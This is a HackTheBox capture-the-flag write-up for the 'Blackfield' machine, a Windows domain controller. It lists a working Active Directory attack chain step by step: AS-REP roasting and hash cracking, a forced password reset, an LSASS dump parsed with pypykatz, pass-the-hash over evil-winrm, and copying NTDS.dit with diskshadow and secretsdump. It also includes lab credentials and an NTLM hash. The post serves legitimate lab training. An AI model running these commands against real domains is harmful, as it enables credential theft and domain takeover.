 ```yaml
---
layout: post
title: "Blackfield"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


```bash
sudo nmap -sC -sV -p- 10.10.10.192 -oN blackfield -T4
``` 
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528212507.png)
 looks like a DC  , so let's try to enumerate 

 I tried rpcclient null session , and ldap null session , and tried to look for shares. 
the weird things here is smbclient did show a list of shares , while nxc (using -u ''-p'' )shows that we don't have permission to enumerate the shares .

when dealing with smb shares the best way to enumerate is smbmap

```bash
smbmap -H 10.10.10.192 -u null
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215120.png)

we can read `profiles$`
seems like list of users , let's create a wordlists with this users and try asreproasting 
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215355.png)

```bash
impacket-GetNPUsers Blackfield.local/  -usersfile users.txt	
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215859.png)

let's crack it 
```bash
hashcat -a 0 -m 18200 asreperoasting /usr/share/wordlists/rockyou.txt 
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528220522.png)

we got support password , let's run bloodhound 
```bash
nxc ldap 10.10.10.192 -u 'support' -p '#00^BlackKnight' -c all --bloodhound -ns 10.10.10.192
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528220830.png)

after uploading it to bloodhound we can see that our user has `forcechangepassword` over `audit2020`

```bash
net rpc password "AUDIT2020" "d0s3nt123@" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "DC01.BLACKFIELD.LOCAL"
```
```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@'  
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528221919.png)

let's enumerate shares using this new credentials 
```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --shares
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222207.png)

if we spider this share 

```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --share forencsic -M spider_plus
```
very juicy
![/home/user/myblog/_site](/assets/img/posts/Active/Pasted image 20240528222511.png)

after getting the zip and unzip the files , we can use `pypkatz` to read the contend of the DUMP 
```bash
pypykatz lsa minidump  lsass.DMP
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222912.png)
we found couples of hashes but the only one that work was `svc_backup`
let's see what we can do with it , back to `bloodhound`

we can get shell using `evil-winrm`
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222958.png)

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223137.png)


this user is part of backup operator group so we can use it to read any files we want on the box 
at first I tried to dump the `SAM` But the administrator hash on it didn't work
```batch
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223354.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223450.png)

we can host an smbserver and transfer it very quick 

but the SAM database will not lead us anywhere  , since the Administrator hash didn't work

so I tried to dump the `NTDS`

for that I need to used `diskshadow.exe` utility
we can use the following script with the diskshadows.exe (I took it  from [hackthebox academy](https://academy.hackthebox.com/module/67/section/601) )



![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224528.png){: normal}

before send it to the machine , we need `unix2dos` so the stupid windows can read our script
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224701.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224753.png)

```
diskshadow.exe /s disk.txt
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224954.png)


![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225012.png)

we can now host an smbserver and transfer the `NTDS.dit` easily
then use `secretsdump` to read the `NTDS`
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM.SAV LOCAL
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225243.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225358.png)